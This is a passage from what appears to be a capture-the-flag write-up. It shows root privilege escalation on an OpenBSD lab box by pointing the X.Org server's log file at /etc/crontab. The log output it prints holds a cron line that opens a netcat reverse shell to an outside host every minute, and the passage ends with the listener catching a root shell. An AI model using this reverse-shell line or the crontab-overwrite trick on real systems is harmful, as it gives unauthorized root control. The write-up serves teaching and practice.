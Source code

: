 

This will error out (and I'll have to kill it), but it will also write
that dump to a log file which I specified, `/etc/crontab`.

I can look at that file:



    [178588.565] (WW) checkDevMem: failed to open /dev/xf86 and /dev/mem
            (Operation not permitted)
            Check that you have set 'machdep.allowaperture=1'
            in /etc/sysctl.conf and reboot your machine
            refer to xf86(4) for details
    [178588.565]    linear framebuffer access unavailable
    [178588.779] (--) Using wscons driver on /dev/ttyC4
    [178588.788]
    X.Org X Server 1.19.6
    Release Date: 2017-12-20
    ...[snip]...
    [178588.790] (==) Max clients allowed: 256, resource mask: 0x1fffff
    [178588.790] (++) FontPath set to:
            * * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 443 > /tmp/f
    [178588.790] (==) ModulePath set to "/usr/X11R6/lib/modules"
    [178588.790] (II) The server relies on wscons to provide the list of input devices.
            If no devices become available, reconfigure wscons or disable AutoAddDevices.
    [178588.790] (II) Loader magic: 0x199318742000
    ...[snip]...
    Fatal server error:
    [178588.796] (EE) Caught signal 11 (Segmentation fault). Server aborting
    [178588.796] (EE) 
    [178588.796] (EE) 
    Please consult the The X.Org Foundation support 
             at http://wiki.x.org
     for help. 
    [178588.796] (EE) Please also check the log file at "crontab" for additional information.
    [178588.796] (EE) 
    [178588.797] (EE) Server terminated with error (1). Closing log file.



There's a ton going on there, and a bunch more I cut out, but all that
really matters is the line in the middle with a cron-formatted string
saying to initiate a reverse shell back to me every minute.

The next time the minute rolls over, I get a root shell:



    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.107.
    Ncat: Connection from 10.10.10.107:25572.
    /bin/sh: No controlling tty (open /dev/tty: Device not configured)
    /bin/sh: Can't find tty file descriptor
    /bin/sh: warning: won't have full job control
    ypuffy# id
    uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
